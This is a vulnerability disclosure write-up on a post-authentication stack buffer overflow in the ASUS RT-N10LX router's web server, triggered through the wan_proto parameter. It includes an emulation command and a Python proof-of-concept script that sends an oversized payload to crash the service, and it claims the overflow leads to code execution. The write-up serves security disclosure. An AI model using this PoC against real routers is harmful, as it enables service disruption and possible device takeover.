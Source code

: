 ## buffer overflow in wan_proto of update_variables



**Affected Product**: ASUS RT-N10LX

**Affected Firmware Versions**: v.2.0.0.39

**Official Firmware Resources** :[ASUS RT-N10LX firmware v.2.0.0.39 v.2.0.0.39](https://cn.driverscollection.com/_5246336426127ef295a27bea27a/下载-ASUS-RT-N10LX-firmware-v.2.0.0.39-。。。的驱动-Windows-10-(32-64-bit)-8.1-(32-64-bit)-8-(32-64-bit)-7-(32-64-bit)-Vista-(32-64-bit)-XP-(32-64-bit)-Server-2003-(32-64-bit)-Mac-OS-Server-2000-Others-免费)

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: 

------

### **Vulnerability Details**

#### **Description**

A stack-based buffer overflow exists in the HTTPD service through the `update_variables` endpoint. The vulnerability occurs when processing POST requests containing the `wan_proto` parameter. Specifically:

1. The `sub_412CCC` function handles requests to `get_wan_status.asp`.
2. User-controlled `update_variables` input is copied to buffer `v18`using `sprintf` without proper bounds checking.
3. The `v18` buffer is only **8  bytes** in size.

This vulnerability requires authentication to exploit, making it a post-authentication vulnerability.



![image-20250625165708494](../res/image-20250625165708494-17508418304082.png)







![image-20250625165626076](../res/image-20250625165626076-17508417875321.png)



### exploitation process

**1、** After initialization in the main function, it enters the `sub_4052BC` function to handle HTTP requests:

![image-20250625170755611](../res/image-20250625170755611.png)



**2、**Traverses the routing table - all entries will execute the `do_ej` function to process responses:



![image-20250625171240555](../res/image-20250625171240555-17508427619493.png)



![image-20250625171311589](../res/image-20250625171311589-17508427928874.png)

**3、**`do_ej` calls `sub_40E99C` → `sub_40E758` → traverses `ej_handlers`:

![image-20250625171717996](../res/image-20250625171717996-17508430394475.png)

4、When matching the `update_variables` function, it enters `sub_412CCC` and triggers the vulnerability:



![image-20250625171803600](../res/image-20250625171803600-17508430851546.png)

#### **QEMU Emulation Setup**

`sudo chroot . ./qemu-mips-static   -g 1234  ./bin/httpd`

 

------

### **Proof of Concept (PoC)**



```
import requests
from requests.auth import HTTPBasicAuth

router_ip = "192.168.107.135"
url = f"http://{router_ip}/get_wan_status.asp/update_variables"
username = "1"
password = "1"
payload = 'A' * 2048

data = {
    
    "wan_proto": payload,
    "action_mode":"QIS_Apply",
    "current_page":"/qis/QIS_wireless.htm"
    
}

headers = {
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/x-www-form-urlencoded",
}

try:
    response = requests.post(
        url,
        data=data,
        headers=headers,
        auth=HTTPBasicAuth(username, password),

    )

    print(f"HTTP Status: {response.status_code}")
    print("Response Content:")
    print(response.text)

    if "Internal Server Error" in response.text:
        print("Server Error Detected")
    elif response.status_code == 500:
        print("Internal Server Error (500)")
    elif response.status_code == 0:
        print("Connection Reset")

except requests.exceptions.ConnectionError:
    print("Connection Failed - Potential Service Crash")
except requests.exceptions.RequestException as e:
    print(f"Request Error: {str(e)}")
except Exception as e:
    print(f"Unexpected Error: {str(e)}")
```



### Exploitation Results


The PoC demonstrates successful overflow of the `v18` buffer on the stack. , the overflow overwrites the return address, granting control of the PC register. This enables arbitrary code execution by crafting a ROP chain or shellcode payload.

